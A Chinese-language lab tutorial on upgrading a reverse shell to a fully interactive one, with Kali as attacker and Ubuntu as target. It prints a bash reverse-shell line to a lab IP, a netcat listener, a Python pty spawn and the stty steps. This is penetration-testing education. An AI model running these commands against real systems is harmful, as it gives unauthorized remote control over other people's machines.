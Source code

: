 # 反弹Shell升级为交互式Shell


<meta name="referrer" content="no-referrer" />

## 前言

看hack the box的视频的时候，发现ippsec不喜欢用蚁剑，喜欢弹个shell回来。

然后一顿操作把一个简单的shell就升级到了一个标准交互式shell

写这篇文章记录一下

## 正文

攻击机：kali

靶机：ubuntu

首先ubuntu建一个新用户：test，密码 test

### 普通Shell

给kali弹shell

```
bash -i >& /dev/tcp/192.168.145.128/4444 0>&1
```

kali

```
nc -lvvp 4444
```

然后发现这个shell有很多问题

- 无法使用vim等文本编辑器
- 不能补全

- 不能su
- 没有向上箭头使用历史
  等等

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900415519-955fe1ca-abbd-4956-bd34-6fd9ebc817f3.png)

### 半交互式Shell

对于已经安装了python的系统，我们可以使用python提供的pty模块，只需要一行脚本就可以创建一个原生的终端，命令如下：

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

在创建完成后，我们此时就可以运行su命令了

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900415634-b4a6424c-a7f9-4bd8-89b0-ace82c85219b.png)

但是还是存在很多问题

- 无法使用vim等文本编辑器
- 不能补全

- 没有向上箭头使用历史

### 完全交互式Shell

命令：

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
//$ export TERM=xterm-256color
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900415738-035aea7f-ff0e-4ebb-a242-ac5d30bcc342.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900415888-bec6cccf-6a6f-4ce9-b303-7242a6a7c5eb.png)

此时已经拥有了一个完全交互式Shell，就可以使用上下左右，vi，tab补全等等一系列操作，并且按Ctrl-c也不会退出。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900416037-96347a6a-f11e-4de6-8a18-e7a5139b92e1.png)

### 相关命令解析

```
stty -echo #禁止回显，当在键盘上输入时，并不出现在屏幕上
stty echo #打开回显
stty raw #设置原始输入
stty -raw #关闭原始输入
bg
将一个在后台暂停的命令，变成继续执行
fg
将后台中的命令调至前台继续运行
jobs
查看当前有多少在后台运行的命令
ctrl + z
可以将一个正在前台执行的命令放到后台，并且暂停
clear
这个命令将会刷新屏幕，本质上只是让终端显示页向后翻了一页，如果向上滚动屏幕还可以看到之前的操作信息。
 
reset
这个命令将完全刷新终端屏幕，之前的终端输入操作信息将都会被清空
```

## 参考链接

[https://www.freebuf.com/news/142195.html](https:_www.freebuf.com_news_142195)
